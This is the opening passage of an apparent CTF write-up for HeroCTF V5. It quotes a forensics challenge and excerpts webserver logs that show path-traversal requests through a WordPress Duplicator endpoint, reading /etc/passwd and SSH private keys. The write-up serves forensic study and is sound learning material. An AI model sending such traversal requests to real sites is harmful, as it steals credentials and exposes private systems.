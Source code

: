 ```yaml
---
title: "HeroCTF V5"
date: 2023-05-15T12:13:32+05:30
description: "Some web and system solves using a wide array of interesting catches and snags."
tags: [python, pwn, web, system, forensics]
---
```


## Overview

HeroCTF was my first solo team attempt at CTF'ing. It was a blast and huge props to the authors of the challenges. I had fun solving all the ones I did and had plenty of time to experiment with the ones I couldn't. The CTF was hosted here: [link](https://ctf.heroctf.fr/). I'll break down my solves below in no particular order.

## dev.corp 1/4

```txt
The famous company dev.corp was hack last week.. They don't understand because they have followed the security standards to avoid this kind of situation. You are mandated to help them understand the attack.

For this first step, you're given the logs of the webserver of the company.

Could you find :
- The CVE used by the attacker ?
- What is the absolute path of the most sensitive file recovered by the attacker ?

Format : Hero{CVE-XXXX-XXXX:/etc/passwd}
Author : Worty
Category : Foresnsics

access.log
```

I started by looking for something vulnerability like; I saw these lines stand out as the ../ is typically used for unintended file traversal.

```t
internalproxy.devcorp.local - - [02/May/2023:13:13:17 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/id_rsa_backup HTTP/1.1" 200 2963 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"

internalproxy.devcorp.local - - [02/May/2023:13:12:46 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/id_rsa HTTP/1.1" 500 354 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"

internalproxy.devcorp.local - - [02/May/2023:13:13:03 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../home/webuser/.ssh/config HTTP/1.1" 200 531 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"

internalproxy.devcorp.local - - [02/May/2023:13:12:29 +0000] "GET //wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../../../../../etc/passwd HTTP/1.1" 200 2240 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
```
